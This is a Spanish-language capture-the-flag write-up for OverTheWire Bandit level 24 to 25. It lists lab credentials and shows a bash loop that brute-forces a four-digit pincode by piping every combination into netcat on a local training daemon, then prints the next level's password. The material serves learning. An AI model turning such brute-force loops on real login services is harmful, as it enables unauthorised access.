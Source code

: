 # Level 24 -> 25
---
## Objectivo
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

---
## Datos de acceso
- user -> **bandit24**
- Passwor ->VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
- host ->  **bandit.labs.overthewire.org**
- port -> **2220**

---
## Solución

``` shell
bandit24@bandit:~$ mkdir /tmp/pass25
bandit24@bandit:~$ cd /tmp/pass25
bandit24@bandit:/tmp/pass25$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 1231
Wrong! Please enter the correct pincode. Try again.
^C
bandit24@bandit:/tmp/pass25$ 
bandit24@bandit:/tmp/pass25$ nano script.sh
bandit24@bandit:/tmp/pass25$ cat script.sh 
#!/bin/bash

pass=VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

for num in {0000..9999};
do
	echo "$pass $num"
done |  nc localhost 30002
bandit24@bandit:/tmp/pass25$ 

Unable to create directory /home/bandit24/.nano: Permission denied
It is required for saving/loading search history or cursor positions.

Press Enter to continue

bandit24@bandit:/tmp/pass25$ chmod 777 script.sh 
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
bandit24@bandit:/tmp/pass25$ 

``` 



---
## Notas adicionales


Se utiliza fuerza bruta en el script para probar todas las posibles combinaciones, luego se envían a través de netcat al puerto 30002 junto con la contraseña.

 ### linux
 **#!/bin**/**bash**: Esta linea indica donde se encuentra el interprete de comandos en nuestro sistema.



---
## Referencias
https://es.wikipedia.org/wiki/Bash#:~:text=La%20sintaxis%20de%20%C3%B3rdenes%20de%20Bash%20incluye%20ideas%20tomadas%20desde,%3A%20%24(...).

https://computernewage.com/2019/01/13/scripting-linux-bash-crear-ejecutar-script/

https://www.hostinger.mx/tutoriales/bash-for-loop-guia-ejemplos

https://marmeus.com/post/Bandit
